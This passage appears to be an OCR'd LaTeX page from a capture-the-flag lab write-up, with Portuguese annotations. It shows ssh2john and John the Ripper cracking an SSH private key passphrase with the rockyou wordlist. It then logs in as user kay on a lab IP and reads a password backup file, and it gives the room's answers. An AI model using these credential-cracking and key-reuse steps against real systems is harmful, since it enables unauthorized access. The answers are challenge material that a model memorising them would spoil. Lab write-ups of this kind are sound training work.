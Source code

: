 \documentclass[11pt]{article}
\begin{document}
 \begin{verbatim}
python3 john/run/ssh2john.py kay_id_rsa > forjohn.txt   
---> converter a chave para um ficheiro que o software consiga interpretar
\end{verbatim}

 \begin{verbatim}
john forjohn.txt --wordlist=rockyou.txt     
\end{verbatim}

\begin{lstlisting}
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay_id_rsa)
1g 0:00:00:07 99.69% (ETA: 06:43:07) 0.1375g/s 1967Kp/s 1967Kc/s 1967KC/s *ames4bas*..*amanda170892*
Session aborted
\end{lstlisting}

What is the name of the other user you found?: kay

Password encontrada: beeswax

 \begin{verbatim}
chmod 600 kay_id_rsa    
\end{verbatim}

 \begin{verbatim}
ssh -i kay_id_rsa kay@10.10.35.200   ----> aceder ao servidor 
como kay (que possui permissões para ler mais ficheiros)
\end{verbatim}

 \begin{verbatim}
cat pass.bak 
\end{verbatim}

 \begin{verbatim}
What is the final password you obtain? 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
\end{verbatim}

\begin{figure}[h]
    \includegraphics[width=1\textwidth]{imgs/Screenshot_2021-07-14_06_54_26.png}
    \centering
    \caption{Tarefa Finalizada}
\end{figure}
\end{document}
